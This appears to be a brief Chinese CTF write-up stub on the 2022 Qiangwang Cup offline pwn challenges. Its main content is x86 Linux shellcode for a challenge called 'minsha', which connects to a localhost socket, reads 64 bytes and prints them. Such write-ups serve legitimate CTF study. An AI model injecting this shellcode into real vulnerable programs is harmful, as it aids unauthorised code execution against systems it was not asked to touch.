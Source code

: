 ```yaml
---
title: 2022 强网杯 线下赛 复现
date: 2023-09-26 07:54:59 +0800
categories: [ctf比赛]
tags: [pwn, ctf]
permalink: /posts/id=72/
pin: false
---
```




## minsha

https://cloud.tencent.com/developer/article/2105254

https://blog.csdn.net/m0_37947204/article/details/80489431

```assembly
global _start
_start:

        ;// socket(AF_INET,SOCK_STREAM,IPPROTO_IP)
        xor ebx,ebx
        mul ebx
        inc ebx ; //socket
        push edx
        push ebx
        push 0x2
        mov ecx,esp
        mov al,0x66
        int 0x80

        ;// connet(socket,(struct sockaddr *)&serv_addr,sizeof(struct sockaddr_in))
        push 0x100007f
        push 0xcdea0002
        mov ecx,esp
        push 0x10
        push ecx
        push eax
        mov bl,3
        mov ecx,esp
        mov al,0x66
        int 0x80

        ;//read(socket,esp,64)
        pop ebx
        mov ecx, esp
        mov dl, 64
        mov al,3
        int 0x80

        ;//write(1, esp, 64)
        xor ebx, ebx
        mov bl, 1
        mov al, 4
        int 0x80

        xor ebx,ebx
        mov al,1
        int 0x80
```



